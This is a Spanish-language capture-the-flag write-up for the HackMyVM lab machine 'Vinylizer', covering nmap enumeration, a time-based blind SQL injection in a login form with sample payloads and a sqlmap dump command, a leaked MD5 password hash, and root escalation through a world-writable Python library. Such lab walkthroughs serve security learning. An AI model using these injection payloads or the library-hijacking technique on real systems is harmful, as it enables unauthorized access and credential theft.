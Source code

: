 ```yaml
---
layout: default
title: Vinylizer
parent: HackMyVM
---
```


# Vinylizer
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22(SSH) y 80(HTTP)

```ruby
nmap -sS -n -Pn --open -p- 192.168.1.90
```
- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

### Puerto 80 (HTTP)

(si hacemos fuzzing de directorios y archivos no encontraremos nada interesante)

Una de las cosas que nos llaman la atencion es un panel de login, donde al ingresar cualquier usuario, nos dara el mensaje "User not found"

![](/assets/img/vinylizer/1.png)

Si interceptamos la peticion con burpsuite nos podemos dar cuenta que existe el parametro "login"

![](/assets/img/vinylizer/2.png)

Podriamos pensar que al darle "login=true" vamos a iniciar sesion pero no es posible, asi que podemos empezar a probar con los parametros, si agremos una comilla simple despues de **username** vemos como nos arroja un HTTP 500

```bash
username=hola'&password=holi&login=
```
```ruby
HTTP/1.0 500 Internal Server Error
Date: Fri, 02 Feb 2024 22:40:00 GMT
Server: Apache/2.4.52 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 2
Connection: close
Content-Type: text/html; charset=UTF-8
```
Por lo cual podriamos interntar probar SQLi

## Explotacion (SQLi Time-based blind)

Despues de probar un rato, me doy cuenta que existe una vulnerabilidad SQLi a ciegas basada en tiempo. Para corroborar esto podemos ejecutar lo siguiente en el parametro **username**

```ruby
username=hola'+or+sleep(5)--+-&password=holi&login=
```
Nos podemos dar cuenta que es vulnerable por que el servidor tarda 5 segundos en darnos una respuesta, en este punto podemos empezar a enumerar el nombre de la base de datos haciendo uso de este payload:

```ruby
OR IF(SUBSTR(database(),1,1)="v", sleep(5),1)-- -
```

```ruby
username=hola'+OR+IF(SUBSTR(database(),1,1)%3d"v",+sleep(5),1)--+-&password=holi&login=
```

Basicamente lo que hace es extrer 1 letra desde la primera posicion del nombre de la base de datos, lo que se traduciria como la primera letra del nombre de la base de datos, luego lo compara con la letra "v", si esta comparacion devuelve TRUE, entonces tardara 5 segundos en darnos una respuesta, en este caso si tardara por que es la primera letra, y asi debemos der hacerlo letra por letra, para no hacerlo tan largo usare sqlmap. De todas formas si quieres saber como explotar un SQLi time-based manualmente puedes leer este post en mi blog: [https://ic4rta.github.io/2023/03/28/sqli/](https://ic4rta.github.io/2023/03/28/sqli/)

Usando sqlmap encontraremos la base de datos vinyl_marketplace y la tabla usuarios, asi que usando lo siguiente podemos mostrar los datos:

```bash
sqlmap -u "http://192.168.1.90/login.php" --data="username=c4rta&password=c4rta&login=" --batch --dump -T users -D vinyl_marketplace
```
Y encontraremos las credenciales del usuario shopadmin:

usr: shopadmin
pass: 9432522ed1a8fca612b11c3980a031f6 (esta en md5 asi que se debe de crackear)

Y ya tendriamos la flag de user

## Escalada

Si vemos los permisos a nivel de sudoers veremos que podemos ejecutar el script vinylizer

```bash
Matching Defaults entries for shopadmin on vinylizer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User shopadmin may run the following commands on vinylizer:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/vinylizer.py
```

Al ver el script vemos que se estan importando las librerias json y random, por redomendacion, les sugiero que si esta explotando un script de python, vean si las librerias que se estan importanto tienen permisos de escritura

Para buscar archivos con escritura podemos usar este comando:

```bash
find / -type f -writable 2>/dev/null
```

Y veremos que tenemos permisos 777 en **/usr/lib/python3.10/random.py**

```bash
-rwxrwxrwx 1 root root 33221 Nov 20 15:14 /usr/lib/python3.10/random.py
```

### Python Library Hijacking (RW permissions)

Un escenario de python library hijacking, es que se este importando una libreria la cual tiene permisos de escritura, asi que nosotros podemos modificar su contenido para que relice una accion arbitraria, si quieres saber de otros escenarios puedes leer: [https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/)

Ahora modificaremos el codigo de la libreria para ejecutar **/bin/bash -p**

![](/assets/img/vinylizer/3.png)

(este codigo yo lo puse antes de las otras declaraciones de **import os**, en mi caso lo puse al principio)

Y ya somos root

![](/assets/img/vinylizer/4.png)